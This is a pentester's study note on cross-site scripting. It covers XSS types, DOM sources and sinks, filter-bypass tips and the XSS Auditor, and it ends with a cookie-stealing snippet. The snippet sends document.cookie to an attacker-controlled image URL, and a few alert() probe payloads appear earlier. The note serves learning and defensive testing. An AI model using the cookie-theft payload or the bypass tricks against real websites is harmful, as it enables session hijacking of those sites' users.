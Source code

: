 # XSS - Cross-Site Scripting

## Introduction

* An XSS vulnerability lets you inject a malicious script on a website
  * One notable use is to steal cookies
* Where to find XSS :
  * Any input on a website really \(if it's not properly sanitized\)
  * Concatenated http parameter pollution
  * Url of action form : `javascript:alert(1337)`
  * Url : `data:text/html,<script>alert(0)</script>`

## Types

### Reflected

* The input is sent to the server and reflected on the page

### Stored

* Same but the input is also persisted in a db of some sort

### DOM

* The input is directly inserted into the DOM \(without being sent to the server at all\)
* **Sources** \(where the input goes\) :
  * `document.url`
  * `document.referrer`
  * `location`
  * `location.href`
  * `location.search`
  * `location.hash`
  * `location.pathname`
  * etc
* **Sinks** \(where the input ends up\) :
  * `element.innerHTML()`
  * `element.outerHTML()`
  * `eval()`
  * `setTimeout()`
  * `setInterval()`
  * `document.write()`
  * `document.writeln()`
  * etc
* A `<script>alert();</script>` inserted via `inner.html` won't be executed

### Polygots

XSS payloads made from a mixture of encoding/repetition/comments/etc that make it possible to pass filter/black list/etc. They're hard to read.

## Tips

* Use lists with _burp intruder_
* If `<script>` aren't accepted, use events like `onfocus`, `onload`, etc
* `google.com/jsapi?callback=alert` can be used to received a function in a callback
* Check : [Bypassing Sanitizers](https://zcugni.gitbook.io/notes/pen-test/vulnerabilities#bypassing-sanitizers) & the [Owasp Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

## XSS Auditor

* Exist in Chrome, not in Firefox and I don't know for the rest
* Broadly speaking, it detects XSS injection by comparing what is given in the url with the scripts of the page
* Because of that, we can inject in the url a script that's a normal part of the page to disable it
* Might soon disappear because it create vulnerabilities and gives a false impression of security to devs

## Get a cookie

By example by injecting this script :

```javascript
<script>
    document.write("<img src='...'?c="+document.cookie+"'/>");
</script>
```

The img will be added to the page and request it's source \(the attacker website\) with the cookie attached to it.

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction's [video](https://www.youtube.com/watch?v=EoaDgUgS6QA)
* [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)'s multiple videos
* Misc research

